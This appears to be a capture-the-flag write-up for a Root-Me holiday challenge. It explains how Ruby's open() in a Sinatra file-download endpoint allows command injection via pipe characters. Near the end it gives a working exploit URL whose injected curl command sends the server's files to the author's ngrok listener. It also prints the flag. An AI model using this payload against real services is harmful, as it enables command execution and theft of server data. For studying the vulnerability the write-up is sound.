



# Santa Sweet Words (day18)

<p align="center"></p>

<p align="justify">In this challenge a ruby website was deployed, and the goal was to read the flag on the server machine, located in /. The source code was available to download and is attached below :</p>

````ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end
````

<p align="justify">After a quick read, it appeared to me that the vulnerability was located in the message API, which was taking a 'number' parameter and concatenating '.txt' to it for file download. Because of the extension added to the filename a simple local file inclusion thanks to path traversal payload wasn't exploitable. After a few read I found (<a href="https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html">doc)</a> it was possible to run commands and escape the filename handled with the open() method, using | char. Hence what I've tried at first was to escape the filename variable with only one | . Nonetheless as shown below, It only triggered download of an empty file the name of my command :</p>  

<p align="center"></p>


<p align="justify">Actually it was caused by the append of .txt at the end of the payload. After a few tries, I  finally came up with the exploit below consisting in putting the paylaod between 2 pipe char : | payload |. Hence what I've done had been to open a listening port on my machine, and then sent the content of the flag to my server with the request below :</p>

````bash
https://day18.challenges.xmas.root-me.org/api/message?number=|curl http://ngrokFQDN:port/($cat /*)|

````
And I finally received the flag !  
<p align="center"></p>

Flag : _RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}_ , thanks _Elweth_ for this challenge !
